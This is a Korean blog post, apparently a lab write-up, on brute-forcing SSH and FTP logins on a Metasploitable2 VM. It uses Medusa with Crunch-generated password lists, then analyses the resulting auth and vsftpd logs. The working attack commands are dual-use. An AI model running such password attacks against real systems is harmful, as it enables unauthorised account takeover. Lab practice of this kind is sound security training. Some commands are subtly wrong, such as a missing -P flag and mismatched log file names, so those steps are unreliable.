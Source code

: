 ```yaml
---
title:  "Medusa, Crunch 활용 Brute Force 공격 in Kali Linux"
excerpt: "Medusa + Crunch 로 Brute Force 공격 해보기"

categories: security
tags:
  - [metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```

#### Metasploitable2 설정
* * *
```bash
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

![picture 1](/assets/images/20220517-011724.png){: .center} 

##### Dictionary 수정
* * *
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```

##### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

![picture 2](/assets/images/20220517-012128.png){: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
![picture 3](/assets/images/20220517-013532.png){: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
![picture 4](/assets/images/20220517-014036.png){: .center}

![picture 7](/assets/images/20220517-014206.png){: .center}  

![picture 5](/assets/images/20220517-014142.png){: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

![picture 8](/assets/images/20220517-015612.png){: .center}

![picture 9](/assets/images/20220517-015648.png){: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

![picture 10](/assets/images/20220517-020107.png){: .center}

![picture 11](/assets/images/20220517-020130.png){: .center}


##### Medusa + Crunch 로 Brute Force 공격 해보기
* * *
**Metasploitable 에서 계정 추가**

```bash
$ metasploitable : sudo adduser gidle
# password : Sk#4
# 로그 실시간 확인
$ metasploitable : tail -f /var/log/auth.log
```

![picture 12](/assets/images/20220517-021336.png){: .center}

**Kali 에서 crunch로 딕셔너리 생성**

```bash
$ kali@kali : sudo crunch 4 4 -t ,@^% -o pw5.txt
$ kali@kali : less pw5.txt
```

![picture 14](/assets/images/20220517-021536.png){: .center}


![picture 13](/assets/images/20220517-021512.png){: .center}

**Kali 에서 medusa 로 brute force 공격 시작**

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh
# -t : 쓰레드 추가 -> 속도 up!
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh -t 16
```

![picture 15](/assets/images/20220517-021802.png){: .center}
#### Log 분석하기
* * *
```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ sudo cp /var/log/auth.log /var/www
$ sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ sudo wget 192.168.5.128/auth.log
$ cat auth.log | awk '{print $12,$13,$14,$15}' | sort | uniq -c
$ cat auth.log | awk '{print $5}' | awk -F"[" '{print $1}' | sort | uniq -c | sort -rn
```

![picture 16](/assets/images/20220517-031446.png){: .center}

**ftp 로그 확인**

```bash
$ kali : sudo medusa -h 192.168.5.130 -u gidle -P pw5.txt -M ftp -t 16
```

```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ msfadmin : sudo cp /var/log/auth.log /var/www
$ msfadmin : sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ kali : sudo wget 192.168.5.128/vsftp.log
```

![picture 17](/assets/images/20220517-031911.png){: .center}  

```bash
# log 분석 uniq -c : 중복제거 + 개수, sort -rn -> r : 내림차순(revers), n : 수를 기준으로 정렬
$ kali : cat vsftpd.log | awk '{print $8, $12}' | sort | uniq -c | sort -rn
```

![picture 18](/assets/images/20220517-032332.png){: .center}  


**파일 가져오지 않고, Kali에서 Meta2로 SSH 접속 후 로그 확인**

```bash
$ kali : sudo ssh 192.168.5.130 -l msfadmin
```

![picture 19](/assets/images/20220517-033120.png){: .center}